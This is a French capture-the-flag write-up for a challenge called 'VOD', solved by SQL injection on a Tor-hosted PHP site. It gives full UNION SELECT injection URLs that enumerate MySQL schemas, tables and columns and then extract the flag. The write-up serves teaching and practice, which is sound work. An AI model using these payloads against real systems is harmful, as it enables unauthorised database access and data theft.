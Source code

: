 # VOD - 256 points

L'adresse .onion indique que l'on doit utiliser le réseau Tor. Pour la simplicité j'ai commencé par (et n'ai finalement utilisé que cela) Tor Browser, soit Firefox pour Tor.
Quand on arrive sur le bon site (et pas ce que regarde les vieux monsieurs la nuit sur certains canaux de la TNT) on est face à une liste de produits, ici des services de VOD, sur lesquels on obtient plus d'informations en cliquant, ce qui nous amène au même url mais avec `?id=n`.
Il peut s'agir d'une base de données et derrière d'une injection SQL, ce qui est confirmé en ajoutant une simple apostrophe `'` après le chiffre.
On obtient alors une erreur mentionnant l'utilisation de `data_seek` dans ce qui est un fichier PHP.
La documentation nous dit alors qu'il s'agit de MySQL.

À partir de là on doit pouvoir utiliser `sqlmap` même à travers Tor mais j'ai simplement suivi des étapes analogues à celles de PayloadsAllTheThings pour les [injections MySQL](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md) :

`http://xwjtp3mj427zdp4tljiiivg2l5ijfvmt5lcsfaygtpp6cw254kykvpyd.onion:1337/platform.php?id=0%27%20UNION%20SELECT%201,2,gRoUp_cOncaT(0x7c,schema_name,0x7c)+fRoM+information_schema.schemata%20--+` donne les BDD : `|information_schema|,|vod|`

`http://xwjtp3mj427zdp4tljiiivg2l5ijfvmt5lcsfaygtpp6cw254kykvpyd.onion:1337/platform.php?id=0%27%20UNION%20SELECT%201,2,gRoUp_cOncaT(0x7c,table_name,0x7C)+fRoM+information_schema.tables+wHeRe+table_schema=%22vod%22%20--+`

donne les tables de la BDD `vod` : `|platform|,|s3cr3t|`

`http://xwjtp3mj427zdp4tljiiivg2l5ijfvmt5lcsfaygtpp6cw254kykvpyd.onion:1337/platform.php?id=0%27%20UNION%20SELECT%201,2,gRoUp_cOncaT(0x7c,column_name,0x7C)+fRoM+information_schema.columns+wHeRe+table_name=%22s3cr3t%22%20--+` donne les fields de la table s3cr3t : `|id|,|flag|`

Reste à prendre flag dans la table s3cr3t : `http://xwjtp3mj427zdp4tljiiivg2l5ijfvmt5lcsfaygtpp6cw254kykvpyd.onion:1337/platform.php?id=0%27%20UNION%20SELECT%201,2,flag%20from%20s3cr3t%20--+`